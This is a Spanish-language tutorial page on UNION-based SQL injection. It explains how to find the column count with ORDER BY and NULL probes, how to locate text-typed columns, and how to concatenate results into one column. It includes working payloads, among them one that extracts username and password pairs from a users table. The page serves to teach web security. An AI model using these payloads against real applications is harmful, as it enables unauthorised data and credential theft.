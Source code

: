 ```yaml
---
layout: default
title: 3. Inyecciones clásicas con datos visibles
permalink: /injection_types/classic
nav_order: 5
---
```


# Inyecciones clásicas con datos visibles

Existen muchas variantes donde afectar en un punto de inyección cambia los resultados, por ejemplo en un nombre de columna o las condiciones de la cláusula `WHERE`. Esto extrae datos no previstos por la aplicación dentro de la tabla de la consulta original.

Sin embargo, cuando se quiere obtener información en masa y de otras partes de la base de datos hay técnicas efectivas que se adaptan. La predominante se da con ataques de `UNION`.

## Introducción a ataques UNION

La palabra `UNION` permite ejecutar más de una consulta `SELECT` y ubicar el resultado de una después de la otra, en el orden que se hayan escrito. En el siguiente ejemplo genérico:

```sql
SELECT a, b FROM tabla1 UNION SELECT c, d FROM tabla2
```

Si `tabla1` es:

| a | b |
| :-: | :-: |
| 111 | aaa |
| 222 | bbb |

Y `tabla2` es:

| c | d |
| :-: | :-: |
| 333 | yyy |

La consulta retorna el conjunto:

| col1 | col2 |
| :-: | :-: |
| 111 | aaa |
| 222 | bbb |
| 333 | yyy |

Para que una consulta `UNION` funcione, las **dos condiciones que tienen que cumplirse son**:
1. El **número de columnas** de todas las uniones coincide.
2. Los **tipos de datos** de cada columna deben ser compatibles en la misma posición resultante.

Determinar el número de columnas y tipos de datos de cada una en la consulta SQL original es vital.

## Determinar número de columnas

### ORDER BY

Hay dos formas básicas de determinar el número de columnas de la consulta original. La primera es abusar de la cláusula `ORDER BY`. Si bien lo común es escribir el nombre de la columna por la cual ordenar, también se permite elegir un número de posición o índice. Por ejemplo, asumiendo la siguiente consulta vulnerable:

```sql
SELECT a, b FROM tabla1 WHERE b = 'INYECTABLE AQUÍ'
```

El *payload* `' ORDER BY 1--` se reflejaría así:

```sql
SELECT a, b FROM tabla1 WHERE b = 'XYZ' ORDER BY 1--'
```

La consulta no tiene errores de sintaxis. Así se puede continuar con el número 2, 3, etc. hasta que eventualmente surja un error por pasarse del índice máximo, como:

```
The ORDER BY position number 3 is out of range of the number of items in the select list.
```

Las reacciones de la aplicación pueden ser varias, pero deben indicar un cambio de comportamiento debido a un error. Luego de esto se puede escribir el `UNION` con la cantidad de columnas exactas.

### Valores NULL

La segunda forma es inyectar el `UNION` comenzando por una sola columna, con el valor `NULL`, e incrementar las columnas nulas hasta que ya no se detecten errores:

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

Un ejemplo de error podría ser:

```
All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
```

Esto funciona porque `NULL` es convertible a cualquier tipo de dato común. A tener en cuenta: en los DBMS populares esa sintaxis es viable, pero en el caso de Oracle se necesita referir a una tabla que viene con ese DBMS llamada `DUAL`:

```
' UNION SELECT NULL FROM DUAL--
```

## Determinar columnas con tipo de dato útil

El objetivo de SQLi con `UNION` es obtener datos, por lo general va a interesar que sean de tipo texto o *string*. Identificar la mayor cantidad de columnas de texto da flexibilidad para extraer y procesar los resultados. Sabiendo ya el número de columnas exactas, solo es necesario **probar con cualquier texto literal fijo** en cada columna y ver cuáles combinaciones arrojan error, por ejemplo:

```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

Si el tipo de dato no es compatible hay chances de que se genere un error como:

```
Conversion failed when converting the varchar value 'a' to data type int.
```

Esto es análogo para otros tipos de dato si fuera necesario aplicarlo.

## Acumular en una columna

¿Qué sucede si se necesita más de una columna para los datos que se intentan extraer pero la consulta no tiene suficientes columnas de ese tipo?

Suponiendo un escenario donde el `UNION` admite **una sola columna** de tipo texto, pero como atacante se quieren obtener al menos dos columnas, se pueden aplicar operaciones de concatenación (u otras transformaciones) **sobre una única columna**. El siguiente es un ejemplo en Oracle para concatenar las credenciales de un usuario:

```
' UNION SELECT username || '~' || password FROM users--
```

Esto devuelve **una columna** con el valor de dos, separando con el caracter `~` para distinguir comienzo y fin. El operador `||` es la concatenación. Como referencia de operadores válidos (puede diferir en versiones):

| Oracle, PostgreSQL | `'foo'||'bar'` |
| SQL Server | `'foo'+'bar'` |
| MySQL | `'foo' 'bar'` [Con espacio] <br> `CONCAT('foo','bar')` |